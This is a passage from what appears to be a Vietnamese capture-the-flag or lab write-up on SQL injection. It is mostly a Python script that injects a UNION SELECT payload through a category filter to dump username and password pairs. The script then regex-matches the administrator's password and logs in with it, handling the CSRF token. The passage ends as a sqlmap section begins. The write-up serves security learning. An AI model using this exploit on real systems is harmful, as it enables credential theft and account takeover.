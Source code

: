 ```python
payload = "' UNION SELECT " + username_column + " || ':' || " + passwod_column + ", NULL FROM " + table_user + "--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

pattern = r"administrator:\w{20}\b"
match = re.search(pattern, response.text)
account = match.group()
username = account.split(':')[0]
password = account.split(':')[1]

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf= soup.find('input', {'name': 'csrf'})['value']
data= {
    'username' : username,
    'password' : password,
    'csrf' : csrf,
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/ByShMTn56.png)

![image](https://hackmd.io/_uploads/SyCnfanq6.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SkCTz6n56.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình chạy tấn công mặc định và tìm tên database có trong cơ sở dữ liệu bằng lệnh
